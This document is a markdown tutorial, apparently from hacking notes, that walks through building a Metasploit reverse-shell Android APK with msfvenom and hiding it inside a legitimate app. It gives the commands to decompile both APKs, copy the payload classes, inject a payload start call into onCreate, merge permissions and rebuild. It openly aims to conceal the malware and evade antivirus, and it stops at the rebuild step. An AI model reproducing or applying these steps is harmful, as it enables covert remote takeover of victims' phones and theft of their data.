


# Malicious APK with MSF Venom

We will now see how to create a malicious APK file that will provide full access to an Android device. Then, we will proceed to download a standard APK and combine it with our malicious APK. This fusion aims to conceal the malicious nature of the file and make it harder to detect at first glance. Additionally, we will learn how to sign the resulting APK to evade detection by antivirus systems.


## **Required applications:**

**APKTool** is a tool that allows you to decompile and recompile Android APK files. It is used to modify applications, translate them, analyze their functionality, or study their security, making it possible to edit resources and source code.

<figure><figcaption></figcaption></figure>


**Uber APK Signer** is a tool used to sign and verify APK files, ensuring they can be installed on Android devices and maintaining their integrity after modifications.

<figure><figcaption></figcaption></figure>


**Msfvenom** is a tool used to create malicious APKs with embedded payloads, enabling remote access to Android devices. It’s commonly used in penetration testing to test security vulnerabilities.

<figure><figcaption></figcaption></figure>

## Step-by-step documentation

1. Download APK where the malicious will be hidden

[APKMonk download page](https://www.apkmonk.com/)

2. Generate malicious APK using msfvenom

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> R > msf.apk
```

<figure><figcaption></figcaption></figure>

3. Decompile both APKs with Apktool

```bash
java -jar apktool.jar d <file.apk>
```

<figure><figcaption></figcaption></figure>

4. Copy classes from malicious APK to original APK

```bash
cd msf
tar -cd - ./smali | ( cd ./<dir_apk_original>; tar -xpf - )
```

<figure><figcaption></figcaption></figure>

5. Find main file from original APK

```bash
grep "MAIN" <dir_apk_original>/AndroidManifest.xml
```

<figure><figcaption></figcaption></figure>

6. Insert payload in the OnCreate method

```bash
invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V
```

<figure><figcaption></figcaption></figure>

7. Copy permissions from msf/AndroidManifest.xml

```bash
grep "<uses-permission" msf/AndroidManifest.xml
```

<figure><figcaption></figcaption></figure>

8. Add permissions to the original APK

> It is important not to add permissions that already exist, if there are any duplicates we must eliminate them.

```bash
nano <dir_apk_original>/AndroidManifest.xml
```

<figure><figcaption></figcaption></figure>

9. Build the original APK

```bash
java -jar apktool.jar b <dir_apk_original> -o <file.apk>
```

<figure><figcaption></figcaption></figure>

